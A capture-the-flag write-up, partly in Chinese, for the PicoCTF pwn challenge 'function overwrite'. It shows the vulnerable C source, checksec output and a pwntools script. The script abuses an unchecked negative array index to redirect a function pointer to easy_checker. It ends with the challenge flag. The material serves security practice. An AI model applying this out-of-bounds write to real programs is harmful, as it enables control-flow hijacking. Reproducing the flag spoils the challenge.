 ```yaml
---
title: PicoCTF - function overwrite
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - function overwrite
## Background
Array Bound
## Source code
:::spoiler Source Code
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::
## Recon
```bash!
$ file vuln
vuln: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=8b6f3ccbb344c3ba91ef077e29c8ab9d6e2da011, for GNU/Linux 3.2.0, not stripped
$ checksec vuln
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/function overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
這一題比想像中簡單，流程是這樣的，他的function pointer原本預設是指像hard_checker，而它裡面做的事情就是把我們輸入的所有字元以ascii的方式加總，如果加總的結果是13371337，就可以讀到flag，但是我們可以做一個簡單的換算，一個字元最多1 byte，也就是最大0xff，他設定最多只能輸入127個字元，代表0xff\*127=32385，遠遠低於13371337，而題目有提供另外一個checker也就是easy_checker，他只需要最後的加總是1337就可以了，代表完全有可能實現(例如：'z'\*10+'u'$\to$0x7a\*10+0x75)，現在的問題是要怎麼把一開始的function pointer指向easy_checker?

題目故意叫我們輸入兩個數字還特別在hint的地方說
> Don't be so negative
其實就是題是array bound的問題，所以簡單用gdb跟一下就可以換算fun array和check function pointer之間的差距還有該加上多少會變成easy_checker的地址
## Exploit
```python!
from pwn import *

# r = process('./vuln')
r = remote('saturn.picoctf.net', 58094)
easy_checker_addr = 0x080492fc
r.recvuntil(b'>> ')
r.sendline(b'z' * 10 + b'u')
r.recvline()
r.sendline(b'-16')
r.sendline(b'-314')

r.interactive()
```

Flag: `picoCTF{0v3rwrit1ng_P01nt3rs_ded38e3b}`